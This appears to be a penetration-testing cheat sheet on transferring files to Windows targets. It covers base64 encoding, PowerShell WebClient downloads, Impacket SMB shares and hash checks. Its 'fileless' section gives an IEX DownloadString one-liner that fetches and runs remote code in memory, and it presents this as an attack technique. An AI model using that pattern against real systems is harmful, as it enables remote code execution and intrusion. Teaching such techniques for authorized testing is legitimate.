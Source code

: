 # Windows
[PowerShell Base64 Encode & Decode](https://github.com/h4ck3r-cat/file.transfers/blob/main/Windows.md#powershell-base64-encode--decode)
<br>
[PowerShell Web Downloads](https://github.com/h4ck3r-cat/file.transfers/blob/main/Windows/Windows.md#step-2-encode-file-to-base64)
<br>
[SMB Downloads](https://github.com/h4ck3r-cat/file.transfers/blob/main/Windows/Windows.md#smb-downloads)
<br>
[FTP Downloads](https://github.com/h4ck3r-cat/file.transfers/blob/main/Windows/Windows.md#ftp-downloads)
## PowerShell Base64 Encode & Decode
This is the simplest and most conveinient method and does **not** require a network connection

### Step 1: Check MD5 Hash
```bash
$ md5sum file.txt
f4d11dce99a848fe050ab3ef2c966b62  file.txt
```
### Step 2: Encode File to Base64
```bash
$ cat file.txt |base64 -w 0

YXJvbgpwd25tZW93CmVnb3Rpc3RpY2Fsc3cKYWRtaW4K
```
### Step 3: Decode in Powershell
```powershell
PS> [Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('YXJvbgpwd25tZW93CmVnb3Rpc3RpY2Fsc3cKYWRtaW4K')) | Out-File -FilePath "C:\Path\To\Decoded\Output.txt" -Encoding UTF8
```
### Step 4: Check MD5 Hash in PowerShell
```powershell
PS> Get-FileHash Output.txt -Algorithm md5

F4D11DCE99A848FE050AB3EF2C966B62
```
If the MD5 hashs are the same, we succeeded in trasfering the file.
> [!IMPORTANT]
> If the MD5 hashs do not match then you might have a few reasons why:
> 1. Line Endings: Different operating systems use different conventions for line endings in text files. Windows typically uses CRLF (\r\n), while Unix-based systems use LF (\n). If the line endings are different, it can result in different MD5 checksums.
> 2. Encoding Differences: If the files are text files and have different character encodings (e.g., UTF-8 vs. UTF-16), this can result in different MD5 checksums.
> 3. Whitespace Differences: Extra whitespace (leading/trailing spaces, tabs, etc.) can also cause differences in MD5 checksums.

By addressing these factors, you should be able to get consistent MD5 checksums for files with identical content.

## PowerShell Web Downloads
PowerShell provides a versatile array of **file transfer** capabilities, with the *System.Net.WebClient* class serving as a reliable tool for downloading files across **HTTP**, **HTTPS**, or **FTP** protocols. Within this class, various methods cater to different download requirements. The following table outlines key **WebClient** methods designed for downloading data from a resource, each catering to specific scenarios:

| Method              | Description                                                                                             |
|---------------------|---------------------------------------------------------------------------------------------------------|
| OpenRead            | Retrieves data from a resource and returns it as a Stream.                                               |
| OpenReadAsync       | Asynchronously obtains data from a resource without blocking the calling thread.                         |
| DownloadData        | Downloads data from a resource and returns it as a Byte array.                                           |
| DownloadDataAsync   | Asynchronously downloads data from a resource, returning a Byte array without blocking the calling thread.|
| [DownloadFile]()        | Downloads data from a resource and saves it to a local file.                                             |
| DownloadFileAsync   | Asynchronously downloads data from a resource to a local file without blocking the calling thread.       |
| [DownloadString]()      | Retrieves a String from a resource and returns it as a String.                                            |
| DownloadStringAsync | Asynchronously downloads a String from a resource without blocking the calling thread.                    |

### PowerShell DownloadFile Method
You can download files using the following powershell code:
```powershell
PS> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

### PowerShell DownloadString - Fileless Method
Fileless attacks operate by utilizing certain functions within an operating system to download and execute a payload directly. Instead of saving a PowerShell script to the computer's storage, we execute it straight from the computer's memory using the Invoke-Expression cmdlet or its shorthand alias, IEX as follows:
```powershell
PS> IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
```

### PowerShell Invoke-WebRequest
```powershell
PS> Invoke-WebRequest <Target File URL> -OutFile <Output File Name>
```
## SMB Downloads
The **Server Message Block protocol (SMB protocol)** that runs on port **TCP/445** is common in enterprise networks where Windows services are running.

In order to transfer files, we need to create an SMB server in our machine with *smbserver.py* from Impacket and then use **copy**, **move**, **PowerShell Copy-Item**, or any other tool that allows connection to SMB.

### Step 1: Create the SMB Server
We will be using **Impacket**, if you dont have it installed you can do that using this bash code:
```bash
$ sudo apt-get install python3-impacket
```

Once we have that installed we can move on to actually creating the smb server:
```bash
$ sudo impacket-smbserver <Share Name> -smb2support <Share Folder>
```

Example:
```bash
$ sudo impacket-smbserver sharefolder -smb2support /tmp/share
```
### Step 2: Copying a File from the SMB Server
Log into the SMB server using smbclient:
```powershell
PS> smbclient \\<IP Adrress>\\<Share Name>
```

Example:
```powershell
PS> smbclient \\10.10.10.10\\sharefolder

Password for [WORKGROUP\user]:
Try "help" to get a list of possible commands.
smb: \>
```
**Note:** in this case we did not specify a password so any password will be suffecient for accessing the files, although it is better to add credentials.

## FTP Downloads
